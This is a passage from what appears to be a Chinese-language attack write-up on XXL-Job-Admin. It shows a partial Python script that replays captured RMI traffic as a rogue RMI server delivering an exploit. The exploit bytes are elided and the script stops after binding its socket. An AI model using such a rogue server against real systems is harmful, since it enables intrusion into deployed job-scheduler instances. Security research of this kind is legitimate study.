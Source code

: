 ## 模拟RMI Server

![](Attack_Xxl-Job-Admin-下篇/wireshark_rawdata.png)

将通过wireshark抓包捕获我们的rmi测试流量，放到`flow_data`数组中，启动该python脚本即可模拟一个用于发送EXP的rmi server

```python
import socket
import binascii
import sys
flow_data = [
"4a524d4900024b",
。。。
]

flow_data = [binascii.a2b_hex(item) for item in flow_data]

if __name__ == '__main__':
    client_seq = [0,2,3]
    #server_seq = [1,4,5]
    sum_sq = len(flow_data)
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    host = "0.0.0.0"
    try:
        port = int(sys.argv[1])
    except:
        port =21345
    server.bind((host,port))
    server.listen(5)
    socket.setdefaulttimeout(5)
    print("[+]server bind on %s:%d"%(host,port))
```
